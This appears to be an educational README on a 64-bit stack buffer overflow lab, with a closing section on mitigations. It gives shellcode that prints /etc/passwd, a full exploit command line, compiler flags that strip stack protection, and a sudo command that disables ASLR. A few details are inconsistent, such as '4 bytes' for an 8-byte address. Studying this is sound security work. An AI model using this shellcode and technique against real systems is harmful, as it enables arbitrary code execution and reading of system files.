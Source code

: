
# Buffer Overflow Exploit

##### The writeup of this exploit was found [here](https://www.exploit-db.com/docs/33698.pdf).

###### Note: All of the following applies to 64-bit systems, in which the length of an address is 8-bytes.

## Exploit overview

This exploit works by overflowing the stack in order to override the return address to point at code that you would like to run. In this exploit, the strcpy function copies user input into the 256-byte buffer. However, strcpy doesn't check bounds, so it copies more than 256 bytes into the array. These last 4 bytes override the return address of the function. When the function returns, the instruction pointer will move to the beginning of the array, and arbitrary code will be run.

In this exploit, the code that will be run simply prints the contents of "/etc/passwd". You can replace the code to be run by replacing the first part of the exploit string.

## Compiling

### Compiling the exploitable C code

In order to compile the code, run the command `gcc -m64 buffer_overflow.c -o buffer_overflow -z execstack -fno-stack-protector`. These compiler flags tell the compiler not to compile the code with stack protection in place. On modern operating systems, stack protection is built in by default, and this type of exploit won't work without explicitly disabling security features.

### Compiling the "malicious" assembly code

To compile the "malicious" code, run the following commands:

```
nasm -f elf64 buffer_overflow_readfile.asm -o buffer_overflow_readfile.o
for i in $(objdump -d buffer_overflow_readfile.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

The output on my system is:

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

Next, we need to find the length of that. You can count the number of `\x`s. An easier way may be to do the following:
```
python -c 'print len("\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41")'
```
, where you paste the output of the step above inside the `""`.

On my system, this outputs 82. This is the length of your shellcode.

## Running

The following command will run the exploit. There are three things that you might need to adjust for this to work on your system. (As well as pasting in the output from the *Compiling the "malicious" assembly code* above).

```
./buffer_overflow $(python -c 'print "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 + "\x7f\xff\xff\xff\xd9\x50"[::-1]')
```

First, you need to disable 'address space layout randomization' (ASLR). This feature changes the address that memory is allocated, so that you can't hardcode the address of the beginning of the array so that you wouldn't be able to hardcode the address and override the return address with the address of the array. In order to disable this feature on Linux, run `sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'`. This feature is re-enabled on reboot, so your system will be secure with a reboot again.

Second, you need to modify the last portion of the string, which needs to be set to the address of the beginning of the buffer. In this case, `0x7fffffffd950` was the address of the beginning of my array, so I set the last portion of the exploit string to `\x7f\xff\xff\xff\xd9\x50`. In order to find the address of your buffer, simply run `./buffer_overflow test`. The first thing that you should see printed in the output is the address of the buffer. Place this address in the exploit string below.

Third, you need to modify the number of "A"s that you have. The total number of bytes that I found that strcpy needs in order to override the return address is 264. This may vary from system to system depending on offsets (with alignment, the buffer might actually be more or less than 264 bytes away from the return address). In order to find this difference, follow the writeup above. Alternatively, you could simply guess what the number of bytes needed is. (It won't be less than 264 bytes away, because the buffer is 256 bytes in length and there is an 8-byte base pointer between the buffer memory and the return address). In order to guess, just keep adding 4 to the 182 until the exploit works.

The value of 182 was found by calculating that the side of the code that will be run is 82 bytes, and the distance between the buffer and return address being 264. The 182 comes from 264 - 82, because the 182 bytes after the 82 byte unsigned code need to be filled with filler data. If you would like to replace the code to be run in the exploit, replace the first part of the string and adjust the number of "A"s so that the total length of the code and "A"s is 264 (or whatever the difference in address of buffer and return address is).

## Exploit mitigation

There are two main ways to mitigate this exploit: using a canary value and strcpy bounds checking.

### Canary value

A canary value is a value that is placed on the stack and checked before returning from the function in order to see whether the value has changed. In buffer overflow attacks, all values between the address of the buffer (which has a lower address than the canary value) and the return address (which has a higher address than the canary value) are overriden. The canary value is checked before returning. If the canary value has changed, you know that the user executed a buffer overflow attack and you can safely exit without allowing the user to use the return value.

### strcpy Bounds Checking

`strcpy` is an unsafe function that does no bounds checking, and only stops copying data into the buffer when it reaches a '\0' (null terminator) in the string. Thus, in this program, even though the buffer has a size of 256, we give it a string that is 264 bytes in length in order to overflow the buffer and override the return address. To prevent people from exploiting your code if you need to use `strcpy`, use `strncpy`. `strncpy` is the same as `strcpy`, except that you pass it a parameter that specifies the maximum length of string that you would like to copy. In this case, using `strncpy` with a parameter of 256 or less would prevent this buffer overflow.


